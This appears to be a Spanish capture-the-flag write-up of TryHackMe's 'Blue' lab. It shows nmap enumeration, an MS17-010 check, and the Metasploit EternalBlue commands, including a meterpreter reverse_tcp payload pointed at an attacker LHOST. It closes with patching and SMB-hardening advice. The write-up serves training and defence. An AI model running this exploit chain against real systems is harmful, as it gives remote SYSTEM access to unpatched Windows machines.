







# Blue - Writeup

| Plataforma | S.O. | Dificultad | IP Objetivo | Temas Clave |
| :--- | :--- | :--- | :--- | :--- |
| TryHackMe | Windows | Fácil | `10.128.155.13` | EternalBlue (CVE-2017-0143), MS17-010, Metasploit |

## Reconocimiento y Enumeración

### Ping y escaneo de puertos

```bash
ping 10.128.155.13
```



Se confirma que la máquina es Windows (TTL=126).

```bash
nmap -sC -sV -p- 10.128.155.13
```



## Análisis de Vulnerabilidades

### Detección de vulnerabilidad SMB

El puerto 445 (SMB) está abierto. Se comprueba vulnerabilidad EternalBlue:

```bash
nmap --script smb-vuln-ms17-010 -p445 10.128.155.13
```



El servicio es vulnerable a EternalBlue (CVE-2017-0143).

## Explotación

### Explotación con Metasploit

Se inicia Metasploit y se busca el exploit:

```bash
msfconsole
search eternalblue
```



Se usa el exploit:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Después de seleccionar el exploit, debes configurar los parámetros necesarios, como la dirección IP de la máquina objetivo y el payload que deseas utilizar. Puedes configurar estos parámetros con los siguientes comandos:

```bash
set RHOSTS 10.128.155.13
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.151.119
set LPORT 4444
```



Finalmente, puedes ejecutar el exploit con el comando `exploit` o `run`. Si el exploit es exitoso, deberías obtener una sesión de meterpreter en la máquina objetivo, lo que te permitirá interactuar con ella y realizar acciones adicionales.

```bash
exploit
```



En este caso, el exploit fue exitoso y se ha establecido una sesión de meterpreter en la máquina objetivo. Ahora puedes usar los comandos de meterpreter para interactuar con la máquina, como por ejemplo `sysinfo` para obtener información del sistema y `getuid` para obtener el usuario actual.



Aqui podemos comprobar que tenemos acceso a la maquina objetivo con NT AUTHORITY\SYSTEM, lo que significa que tenemos privilegios de administrador en la máquina. Esto nos permite realizar una amplia gama de acciones, como ejecutar comandos, acceder a archivos y modificar la configuración del sistema.

## Mitigación y Recomendaciones

1. **Deshabilitar SMBv1**: Desactivar por completo el protocolo obsoleto e inseguro SMBv1 en todo el dominio y equipos locales. Utilizar en su lugar SMBv2 o SMBv3.
2. **Aplicar Parches de Seguridad**: Instalar la actualización de seguridad de Microsoft MS17-010 (CVE-2017-0143) en todos los sistemas Windows afectados.
3. **Segmentación y Reglas de Firewall**: Configurar el firewall para restringir el acceso a los puertos SMB (445 y 139) de manera que solo los hosts explícitamente autorizados y dentro de la red interna puedan comunicarse a través de estos puertos.
